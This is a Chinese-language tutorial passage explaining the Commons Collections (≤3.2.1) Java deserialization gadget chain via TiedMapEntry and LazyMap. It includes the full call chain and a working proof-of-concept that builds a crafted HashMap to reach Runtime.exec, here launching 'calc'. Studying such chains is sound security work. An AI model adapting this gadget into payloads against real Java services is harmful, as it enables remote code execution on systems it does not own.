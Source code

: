 如果想要实现**序列化**和**反序列化**目前的结果显然是不够的，

##### 那么LazyMap和哪个类的什么方法会有联系呢？

答案是`TiedMapEntry`类，`TiedMapEntry`的`hashCode`方法调用了`getValue`，getValue调用了get方法，

所以可以用`TiedMapEntry`的`hashCode`方法调用`LazyMap`的`get`方法。

![image-20241029093312330](https://image.201068.xyz/assets/5.软件开发基本知识/image-20241029093312330.png)

##### 源码

```java
Transformer[] transformers = {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };
        ChainedTransformer ct = new ChainedTransformer(transformers);
        Map decorate = LazyMap.decorate(new HashMap(), ct);
        TiedMapEntry t = new TiedMapEntry(decorate, "T");
        t.hashCode();//起调
```

##### 整个完整的利用链

```java
HashMap.readObject()
HashMap.hash()
    TiedMapEntry.hashCode()
    TiedMapEntry.getValue()
        LazyMap.get()
            ChainedTransformer.transform()
                InvokerTransformer.transform()
                    Method.invoke()
                        Runtime.exec()
```

该条利用链是继DNSURL链之后最简单也是最实用的链子，

原因就是该条链不受JDK版本的限制，只是限定了`commons collections`类库的版本要**小于等于3.2.1**即可。

##### 完整POC：

```java
  Transformer[] transformerArray=new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
            new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
            new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformerArray);
        Map<Object, Object> map = new HashMap<Object, Object>();
        Map<Object, Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"any1");
        HashMap<Object, Object> hashMap = new HashMap<Object, Object>();
        hashMap.put(tiedMapEntry,"any2");
        Class<LazyMap> lazyMapClass = LazyMap.class;
        Field factory = lazyMapClass.getDeclaredField("factory");
        factory.setAccessible(true);
        factory.set(lazyMap,chainedTransformer);
        lazyMap.remove("any1");

```